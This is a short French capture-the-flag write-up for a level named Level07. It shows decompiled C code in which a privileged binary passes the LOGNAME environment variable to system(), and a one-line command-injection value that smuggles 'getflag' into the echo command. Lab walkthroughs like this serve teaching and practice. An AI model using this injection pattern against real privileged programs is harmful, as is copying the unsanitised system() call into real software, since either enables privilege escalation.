

# Level07:

**A la racine de la session on trouve un binaire qui une fois decompile donne le code suivant:**

```cpp
int main(int argc,char **argv,char **envp) {
    char *pcVar1;
    int iVar2;
    char *buffer;
    gid_t gid;
    uid_t uid;
    char *local_1c;
    __gid_t local_18;
    __uid_t local_14;
    
    local_18 = getegid();
    local_14 = geteuid();
    setresgid(local_18,local_18,local_18);
    setresuid(local_14,local_14,local_14);
    local_1c = (char *)0x0;
    pcVar1 = getenv("LOGNAME");
    asprintf(&local_1c,"/bin/echo %s ",pcVar1);
    iVar2 = system(local_1c);
    return iVar2;
}
```

**Le code recupere la variable d'environement "LOGNAME" et l'ajoute dans une ligne qui affiche le resultat de la commande echo avec cette chaine, on peut donc facilement l'exploiter de la maniere suivante:**

`export LOGNAME='"" ; getflag'`

**Cette ligne s'ocuppe de fermer le `echo` et d'y glisser la commande `getflag`**
**Nous n'avons donc plus qu'a relancer le binaire `./level07`**

